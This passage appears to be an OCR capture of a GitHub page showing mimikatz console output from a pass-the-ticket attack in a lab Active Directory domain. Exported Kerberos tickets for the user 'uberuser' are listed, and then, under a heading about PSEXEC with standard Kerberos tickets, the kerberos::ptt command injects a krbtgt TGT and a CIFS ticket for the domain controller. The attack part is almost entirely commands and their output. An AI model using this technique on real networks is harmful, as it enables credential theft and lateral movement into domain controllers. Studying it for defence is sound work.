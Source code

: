 [00000003] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 10/26/2015 11:39:32 PM ; 10/27/2015 9:39:31 AM ; 11/2/201
5 11:39:31 PM
   Server Name       : ldap/dc1.sittingduck.info @ SITTINGDUCK.INFO
   Client Name       : uberuser @ SITTINGDUCK.INFO
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewa
ble ; forwardable ;
   * Saved to file     : 3-40a50000-uberuser@ldap~dc1.sittingduck.info-SITTINGDU
CK.INFO.kirbi

[00000004] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 10/26/2015 11:39:31 PM ; 10/27/2015 9:39:31 AM ; 11/2/201
5 11:39:31 PM
   Server Name       : LDAP/dc1.sittingduck.info/sittingduck.info @ SITTINGDUCK.
INFO
   Client Name       : uberuser @ SITTINGDUCK.INFO
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewa
ble ; forwardable ;
   * Saved to file     : 4-40a50000-uberuser@LDAP~dc1.sittingduck.info~sittingdu
ck.info-SITTINGDUCK.INFO.kirbi
```

## PSEXEC with standard Kerberos tickets
```

mimikatz # kerberos::list

mimikatz # (EMPTY LIST)

mimikatz # kerberos::ptt 1-40e10000-uberuser@krbtgt~SITTINGDUCK.INFO-SITTINGDUCK
.INFO.kirbi
  0 - File '1-40e10000-uberuser@krbtgt~SITTINGDUCK.INFO-SITTINGDUCK.INFO.kirbi'
: OK

mimikatz # kerberos::ptt 2-40a50000-uberuser@cifs~dc1.sittingduck.info-SITTINGDU
CK.INFO.kirbi
  0 - File '2-40a50000-uberuser@cifs~dc1.sittingduck.info-SITTINGDUCK.INFO.kirbi
' : OK

mimikatz # kerberos::list

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 10/26/2015 11:39:31 PM ; 10/27/2015 9:39:31 AM ; 11/2/201
5 11:39:31 PM
   Server Name       : krbtgt/SITTINGDUCK.INFO @ SITTINGDUCK.INFO
   Client Name       : uberuser @ SITTINGDUCK.INFO
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; f
orwardable ;

[00000001] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 10/26/2015 11:39:32 PM ; 10/27/2015 9:39:31 AM ; 11/2/201
5 11:39:31 PM
   Server Name       : cifs/dc1.sittingduck.info @ SITTINGDUCK.INFO
   Client Name       : uberuser @ SITTINGDUCK.INFO
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewa
ble ; forwardable ;
